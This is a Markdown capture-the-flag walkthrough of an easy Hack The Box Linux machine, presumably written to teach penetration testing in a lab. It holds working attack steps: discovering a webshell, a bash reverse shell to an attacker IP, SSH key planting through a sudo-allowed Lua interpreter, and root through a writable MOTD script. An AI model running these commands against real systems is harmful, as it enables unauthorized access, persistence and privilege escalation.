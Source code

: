 ## 📌 Box Info
- **OS**: [Linux](Linux)
- **Difficulty**: [Easy](Easy)
- Platform: [HTB](HTB)
**Tags:** `webshell`, `lua`, `luvit`, `motd`, `ssh`, `cron privesc`

---

## 📡 Recon

### Full TCP Port Scan

```bash
nmap -p- --min-rate 10000 -oA scans/nmap-alltcp 10.10.10.181
```

### Targeted Service Detection

```bash
nmap -p 22,80 -sC -sV -oA scans/nmap-tcpscripts 10.10.10.181
```

- **Ports Open**: 22 (SSH), 80 (HTTP)
- Apache/2.4.29, OpenSSH 7.6p1 → likely Ubuntu 18.04

---

## 🌐 [Web Enumeration](HTTP.md)

### Webpage Source

- Page shows “owned” message by Xh4H
- Comment: `<!--Some of the best web shells that you might need ;)-->`
- Google search → list of known PHP webshell names

### Create Wordlist of Common Webshells

```bash
vim php_shells.txt  # Add shell names like smevk.php, cmd.php, r57.php etc.
```

### Gobuster with Wordlist

```bash
gobuster dir -u http://10.10.10.181 -w php_shells.txt
```

✅ **Found**: `/smevk.php`

---

## 🐚 Shell as webadmin

### Webshell Access

- Login: `admin:admin` (from source)
- Use Reverse Shell payload:

```bash
bash -c 'bash -i >& /dev/tcp/10.10.14.6/443 0>&1'
```

### Listener

```bash
nc -lvnp 443
```

🎯 Shell obtained as `webadmin`

---

## 🔐 Persist Access (Optional)

### Add SSH Key via Webshell

```bash
mkdir ~/.ssh
echo "your-ssh-pub-key" > ~/.ssh/authorized_keys
```

Then [SSH](SSH) in:

```bash
ssh webadmin@10.10.10.181 -i ~/keys/id_rsa
```

---

## 🧑‍💻 Privilege Escalation: webadmin → sysadmin

### Check for Sudo Rights

```bash
sudo -l
```

✅ `webadmin` can run `/home/sysadmin/luvit` as `sysadmin` without password

---

### Lua-based SSH Key Write Exploit

```lua
-- Save as /dev/shm/key.lua
authkeys = io.open("/home/sysadmin/.ssh/authorized_keys", "a")
authkeys:write("ssh-ed25519 AAAA... your-key-here ... user@host\n")
authkeys:close()
```

Run it:

```bash
sudo -u sysadmin /home/sysadmin/luvit /dev/shm/key.lua
```

🎯 Now SSH as `sysadmin`:

```bash
ssh sysadmin@10.10.10.181 -i ~/keys/id_rsa_sysadmin
```

✅ Get `user.txt`

---

## 🧑‍🔧 Privilege Escalation: sysadmin → root

### MOTD Scripts Writable

```bash
ls -l /etc/update-motd.d/
```

✅ Writable by `sysadmin` group (e.g., 00-header)

---

### Add Root Key via MOTD

```bash
echo "cp /home/sysadmin/.ssh/authorized_keys /root/.ssh/" >> /etc/update-motd.d/00-header
```

Immediately login again as any user to trigger script:

```bash
ssh webadmin@10.10.10.181
```

🎯 Now SSH as `root`:

```bash
ssh root@10.10.10.181 -i ~/keys/id_rsa_sysadmin
```

✅ Grab `root.txt`

---

## 🧩 Beyond Root

### Cron Discovery (via pspy or manually)

```bash
crontab -l
```

Shows:

```cron
* * * * * /bin/cp /var/backups/.update-motd.d/* /etc/update-motd.d/
* * * * * sleep 30 ; /bin/cp /var/backups/.update-motd.d/* /etc/update-motd.d/
```

- Scripts overwritten every 30 seconds from backup
- Acts as cleanup mechanism

### Enumeration Tips

- Group-writable scripts in MOTD folder = privesc vector
- LinPEAS / LinEnum with `-t` will detect this
